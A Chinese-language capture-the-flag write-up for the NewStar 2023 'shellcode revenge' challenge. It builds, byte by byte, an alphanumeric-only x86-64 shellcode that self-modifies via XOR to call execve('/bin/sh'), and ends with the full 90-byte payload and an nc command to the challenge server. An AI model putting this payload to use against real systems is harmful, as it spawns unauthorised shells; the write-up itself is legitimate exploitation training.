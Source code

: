 ```yaml
---
title: newstar2023 week2 - shellcode revenge
date: 2023/10/4 12:00:00
tags:
    - shellcode
---
```


## 文件分析

下载`shellcodere`, 保护全开  
ghidra分析为64位程序

## 解题思路

程序将shellcode读到0x66660000处，并过滤掉所有非大写字母和数字  
这真的是新生赛吗！搓了我好几天

## 准备

先检查寄存器的值都为多少  
![reg_values](/assets/newstar2023/regs.png)

xor主要使用rbx，要清空它；rax和rdx都有特定值要存放，所以用rcx来存基址；
`pop rdi`, `pop rsi`都要搓出来，还有0x3b和sh字符串

程序布局：在可使用的范围内，前段为程序，后端为数据

以下是按字符反汇编解析

## Shellcode分析

```as
exec:
push rdx                         ; R
pop  rcx                         ; Y set base addr
xor  qword ptr [rcx + 0x5a], rbx ; H1YZ
xor  rbx, qword ptr [rcx + 0x5a] ; H3YZ zero out rbx
xor  bl, byte ptr [rcx + 0x49]   ; 2YI xor pivot 1
xor  byte ptr [rcx + 0x4a], bl   ; 0YJ
xor  byte ptr [rcx + 0x4e], bl   ; 0YN 2* 48 -> 1a
xor  byte ptr [rcx + 0x51], bl   ; 0YQ
xor  byte ptr [rcx + 0x59], bl   ; 0YY 2* zero out last byte
xor  bl, byte ptr [rcx + 0x49]   ; 2YI zero out bl
xor  rbx, qword ptr [rcx + 0x4a] ; H3YJ set rbx value
xor  rbx, qword ptr [rcx + 0x52] ; H3YR xor to get /bin/sh
push rbx                         ; S
push rsp                         ; T point to /bin/sh
;now bl is 2f
xor  bl, byte ptr [rcx + 0x4b]   ; 2YK xor pivot 2
xor  byte ptr [rcx + 0x38], bl   ; 0Y8 make 0x5e
push rdi                         ; W
pop  rdx                         ; Z zero out rdx
xor  byte ptr [rcx + 0x39], bl   ; 0Y9 make 0x5f
xor  al, 0x4f                    ; 4O
xor  al, 0x44                    ; 4D
xor  al, 0x30                    ; 40 make al equals to 0x3b
push rdi                         ; W
pop rsi                          ; G is xored by 0Y8; zero out rsi
pop rdi                          ; F is xored by 0Y9; point to /bin/sh
;now bl is 19
xor bl, byte ptr [rcx + 0x54]    ; 2YT xor pivot 3
xor byte ptr [rcx + 0x43], bl    ; 0YC make 0x0f
xor byte ptr [rcx + 0x44], bl    ; 0YD make 0x05
syscall                          ; OE is xored by 0YC0YD
```

```
data section:
rcx + 'E': 000 ; just padding; shrink it to get a shorter shellcode
rcx + 'H': 3   ; xor pivot 2
rcx + 'I': R   ; xor pivot 1
rcx + 'J': H607H60R ; xor part 1
rcx + 'R': 5TYY5EXR ; xor part 2
rcx + 'Z': \0  ; store rbx later
```

最后shellcode长度：**90字节**
## 踩过的坑

1. gdb在调试shellcode的时候建议用si，ni会直接运行到底
2. 网上资料可能不全，需要自己摸索，比如'40'就是自己反汇编才知道的
3. 字符间换来换去还挺麻烦的，用用下面的函数

```python
def toHex(s: str):
    ret = ''
    for c in s:
        ret += hex(ord(c))[2:]

def toChr(s: str):
    ret = ''
    for i in range(0, len(s), 2):
        ret += chr(int(s[i:i+2], 16))
```
## EXPLOIT

`nc node4.buuoj.cn 28975`

*RYH1YZH3YZ2YI0YJ0YN0YQ0YY2YIH3YJH3YRST2YK0Y8WZ0Y94O4D40WGF2YT0YC0YDOE0003RH607H60R5TYY5EXR*  
*cat flag*

## 参考资料

[short shellcode](https://blog.csdn.net/A951860555/article/details/110936441)  
[alphanumeric shellcode编写指南](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf)  
[在线汇编/反汇编器](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)  
[好用的在线异或](http://i.goto327.top:85/Tools1/XOR.aspx)

Done.
